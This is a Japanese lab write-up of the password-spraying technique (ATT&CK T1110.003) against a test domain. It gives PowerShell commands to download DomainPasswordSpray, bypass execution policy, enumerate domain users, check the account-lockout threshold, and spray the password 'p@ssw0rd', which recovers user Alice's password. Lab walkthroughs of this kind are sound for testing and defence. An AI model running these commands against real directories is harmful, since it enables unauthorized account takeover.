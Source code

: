 # T1110.003 - Password Spraying

Password Spraying
-------------

Password Spraying 攻撃について記載します。

|  Type  | Description   |
|:---|:---|:---|
|  ID  |  T1110.003  |
|  Tactic  |  Credential Access |
|  Techniques  |  Brute Force  |
|  Sub-techniques  |  Password Spraying |

本検証では、dafthack 氏が公開している「Domain Password Spray」ツールを利用します。

まず、ツールの取得を行うため Invoke-WebRequest での TLS 1.2 を許可した上でダウンロードを行います。

```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest –URI "https://github.com/dafthack/DomainPasswordSpray/archive/master.zip" -OutFile "~\Desktop\Tools\PasswordSpary_master.zip“
```

ダウンロードした zip ファイルを展開します。

```
cd C:\Users\Alice\Desktop\Tools\
Expand-Archive .\PasswordSpray_master.zip
```

Excution Policy を許可したうえで、ツールのモジュールをインポートします。

```
cd .\PasswordSpray_master\DomainPasswordSpray-master\
Set-ExecutionPolicy Bypass
Import-Module .\DomainPasswordSpray.ps1
```
ここで、パスワードスプレーを試行するユーザの列挙を行います。
本ツールには、Get-DomainUserList 関数で事前にユーザの列挙を行う機能が備わっています。
以下の例では、列挙したユーザを userlist.txt ファイルに出力しています。

```
Get-DomainUserList -Domain labcorp.local -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt
```
![T1566.001-1](images/T1566.001-1.png)

次に、パスワードスプレーでは特定のパスワードを複数のユーザに対して試行を行いますが、本ツールでは試行するパスワードをリストで指定することが可能です。
多くのパスワードを指定すると、アカウントロックの恐れがあるため事前にパスワードポリシーを調査します。

パスワードポリシーの調査には、Powershell の Get-ADDefaultDomainPasswordPolicy ユーティリティを用います。
Windows 10 では標準で本ユーティリティが備わっていないため、Remote Server Administration Tools (RSAT) をインストールします。

![T1566.001-2](images/T1566.001-2.png)
https://docs.microsoft.com/en-US/troubleshoot/windows-server/system-management-components/remote-server-administration-tools

![T1566.001-3](images/T1566.001-3.png)
https://www.microsoft.com/en-us/download/details.aspx?id=45520

Get-ADDefaultDomainPasswordPolicy ユーティリティを実行するとアカウントロックの閾値を確認することができます。
以下の場合は、「Lookout Threshold」の値が 0 であるためアカウントロックの閾値は設定されていないことがわかります。

![T1566.001-4](images/T1566.001-4.png)

アカウントロックの閾値は設定されていませんでしたが、次の実行例ではパスワードに「p@ssw0rd」という文字列を指定してパスワードスプレーを試行しました。
その結果、ユーザ Alice のパスワードに合致しました。

```
Invoke-DomainPasswordSpray -UserList userlist.txt -Domain labcorp.local -Password p@ssw0rd -OutFile sprayed-creds.txt
```

![T1566.001-5](images/T1566.001-5.png)
